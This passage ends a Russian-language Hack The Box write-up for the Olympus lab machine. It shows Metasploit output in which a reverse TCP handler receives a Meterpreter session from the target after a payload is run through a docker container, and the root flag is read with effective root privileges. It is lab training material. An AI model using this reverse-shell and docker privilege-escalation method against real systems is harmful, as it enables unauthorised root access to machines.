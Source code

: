 ```text

[*] Started reverse TCP handler on 10.10.14.14:4444
[*] Writing payload executable to '/tmp/mfmDpJe'
[*] Executing script to create and run docker container
[*] Sending stage (861480 bytes) to 10.10.10.83
[*] Waiting 60s for payload
[*] Meterpreter session 3 opened (10.10.14.14:4444 -> 10.10.10.83:48162) at 2018-08-26 11:08:30 -0400

meterpreter > getuid
Server username: uid=1000, gid=1000, euid=0, egid=1000

meterpreter > cat /root/root.txt
aba48699????????????????????????
```

Слава богам, спасибо за внимание :innocent:

![owned-user.png]({{ "/img/htb/boxes/olympus/owned-user.png" | relative_url }})
{: .center-image}

![owned-root.png]({{ "/img/htb/boxes/olympus/owned-root.png" | relative_url }})
{: .center-image}

![trophy.png]({{ "/img/htb/boxes/olympus/trophy.png" | relative_url }})
{: .center-image}

